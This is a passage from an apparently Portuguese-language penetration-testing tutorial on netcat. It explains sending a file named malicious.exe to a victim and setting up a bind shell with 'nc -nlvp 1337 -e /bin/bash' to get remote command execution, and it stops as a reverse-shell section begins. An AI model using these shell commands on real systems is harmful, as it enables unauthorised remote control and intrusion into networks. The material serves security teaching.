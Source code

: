 Em ambos os casos, a vítima irá redirecionar a saída padrão (>) para um arquivo chamado malicious.exe. Ou seja, todos os bytes que chegarem pelo netcat irão compor o arquivo final.

Quando o atacante redireciona a sua entrada padrão (<) para o arquivo malicious.exe, o netcat irá enviar todos os bytes desse arquivo para a vítima.

Esse procedimento pode levar um tempo e o netcat não mostra informações da completude do envio, logo devemos esperar um momento até que todos os bytes sejam enviados. Como explicaremos em outras postagens, uma shell reversa e *exploits*, de uma forma geral, são arquivos pequenos, que não vão demorar para serem transferidos.

Nas imagens a seguir, foi realizado o primeiro procedimento descrito nessa seção. Após o envio, podemos confirmar que o arquivo recebido pela vítima realmente é um binário PE (EXE) com o comando `file`:

### Exemplo 6 - Bind shell
Uma *bind shell* é um dos tipos mais básicos de malware para controle de um alvo. O procedimento é o seguinte:

> 1. O atacante envia um arquivo malicioso para que a vítima execute. Esse malware irá habilitar um pequeno servidor ("abrir uma porta") no computador do alvo.
> 2. O atacante irá, então, se conectar a esse pequeno servidor, utilizando o IP do alvo e a porta escolhida previamente.
> 3.  Ao estabelcer a comunicação, o invasor poderá enviar comandos (como comandos do cmd, powershell ou bash) para que o alvo execute e envie a resposta.

![b0460d7f499c3a40d5544795b40c8fa2.png](../img/pentest-0x00/f59ba832934f48c28e5601af6fe05f8d.png)

Isso garante o controle remoto de um computador.
Para que não necessitemos (por hora) codificar um malware desse tipo, o netcat já consegue nos prover o necessário para realizar esse procedimento, ao passarmos o argumento `-e` para a vítima.

`-e, --exec <command>       Executes the given command`

> Note que nas versões mais recentes do Ubuntu, você deve baixar o `ncat`, versão do netcat distribuído pela nmap.org. Para que os comandos abaixo funcionem, executem antes `alias nc=ncat`.

Além da opção `-e`, temos que repassar qual será o binário responsável por realizar o processamento e interpretação dos comandos. Em windows, podemos utilizar `-e cmd.exe` e em Linux `-e /bin/bash`.

O comando de uma vítima Linux ficará assim:

```sh
nc -nlvp 1337 -e /bin/bash
```

Ao conectarmos com `nc ip_da_vitima 1337` e digitarmos algum comando reconhecido pelo `/bin/bash`, teremos o retorno:

![c65a5b8888678cfae5c654b004c180ed.png](../img/pentest-0x00/0a9e8afb2eae4d7985f864e920bb1833.png)

Isso nos permite executar código arbitrário, enviar arquivos, entre outras possibilidades. Supondo que a vítima seja um servidor que esteja exposto na internet, é possível ter acesso à rede interna a partir do conceito aprendido nessa seção.

### Exemplo 7 - Reverse shell
O conceito de shell reversa surgiu devido a bloqueios padrão de ferramentas de segurança a nível de rede, como Firewalls, que geralmente bloqueiam requisições *inbound* para computadores da rede interna.
